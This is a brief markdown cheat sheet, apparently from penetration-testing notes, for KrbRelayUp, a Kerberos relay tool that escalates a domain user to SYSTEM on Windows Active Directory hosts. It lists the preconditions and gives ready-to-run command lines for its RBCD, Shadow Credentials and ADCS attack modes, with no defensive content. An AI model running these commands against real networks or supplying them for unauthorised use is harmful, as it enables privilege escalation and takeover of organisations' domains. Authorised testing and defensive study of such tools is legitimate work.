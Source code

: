 # KrbRelayUp

Link: https://github.com/Dec0ne/KrbRelayUp

## Requirements: LDAP Signing is not enforced. Valid domain user credentials.

### 1) RBCD

    ./KrbRelayUp.exe relay -Domain domain.local -CreateNewComputerAccount -ComputerName test$ -ComputerPassword Password123!
    ./KrbRelayUp.exe spawn -d domain.local -cn test$ -cp Password123!

### 2) ShadowCreds

    ./KrbRelayUp.exe full -m shadowcred --ForceShadowCred

### 3) ADCS

    ./KrbRelayUp.exe full -m adcs

# Example

    .\KrbRelayUp.exe relay -Domain DOMAIN -CreateNewComputerAccount -ComputerName COMPUTER$ -ComputerPassword PASSWORD

    .\KrbRelayUp.exe spawn -m rbcd -d DOMAIN -dc DC -cn COMPUTER_NAME -cp COMPUTER_PASS

## This attack grants System/Admin access
